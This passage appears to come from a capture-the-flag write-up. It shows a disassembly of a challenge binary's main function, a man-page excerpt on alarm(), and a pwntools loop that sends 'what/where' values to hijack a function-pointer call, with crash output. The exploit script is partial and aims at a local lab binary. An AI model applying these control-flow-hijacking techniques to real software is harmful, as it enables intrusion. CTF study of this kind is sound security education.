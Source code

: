 ```
    12fa:	e8 51 fd ff ff       	call   1050 <setbuf@plt>
    12ff:	48 8b 05 1a 37 00 00 	mov    rax,QWORD PTR [rip+0x371a]        # 4a20 <stderr@GLIBC_2.2.5>
    1306:	be 00 00 00 00       	mov    esi,0x0
    130b:	48 89 c7             	mov    rdi,rax
    130e:	e8 3d fd ff ff       	call   1050 <setbuf@plt>
    1313:	bf b4 00 00 00       	mov    edi,0xb4
    1318:	e8 43 fd ff ff       	call   1060 <alarm@plt>
    131d:	e8 97 fe ff ff       	call   11b9 <write_of_passage>
    1322:	48 98                	cdqe
    1324:	48 8d 14 c5 00 00 00 	lea    rdx,[rax*8+0x0]
    132b:	00
    132c:	48 8d 05 ad 36 00 00 	lea    rax,[rip+0x36ad]        # 49e0 <tests>
    1333:	48 8b 04 02          	mov    rax,QWORD PTR [rdx+rax*1]
    1337:	ff d0                	call   rax
    1339:	b8 00 00 00 00       	mov    eax,0x0
    133e:	c9                   	leave
    133f:	c3                   	ret
```

We also notice that if we hit main using this approach, we will always do the `alarm` call again which will reset the alarm, as stated in its man page below.
```
DESCRIPTION
       alarm() arranges for a SIGALRM signal to be delivered to the calling process in seconds seconds.

       If seconds is zero, any pending alarm is canceled.

       In any event any previously set alarm() is canceled.
```
This means we do not really have to worry about the alarm once we have a looping program.

Some quick code shows that eventually the banner will be printed:
```python
def what_where(type, offset):
  global r
  r.sendlineafter("What is it?", f"{type}".encode())
  r.sendlineafter("Where is it?", f"{offset}".encode())

def main():
  global r
  while True:
    r = conn()
    what_where(AT_ENTRY, exe.symbols['tests'] - exe.symbols['_start'])
    try:
      a = r.recvline() + r.recvline()
      print(a)
    except Exception as e:
      pass
    r.close()
```
With output:
``` 
[...]
[+] Starting local process './main': pid 12349
[*] Process './main' stopped with exit code -11 (SIGSEGV) (pid 12349)
[+] Starting local process './main': pid 12360
[*] Process './main' stopped with exit code -11 (SIGSEGV) (pid 12360)
[+] Starting local process './main': pid 12371
[*] Process './main' stopped with exit code -4 (SIGILL) (pid 12371)
[+] Starting local process './main': pid 12382
[*] Process './main' stopped with exit code -4 (SIGILL) (pid 12382)
[+] Starting local process './main': pid 12393
[*] Process './main' stopped with exit code -11 (SIGSEGV) (pid 12393)
```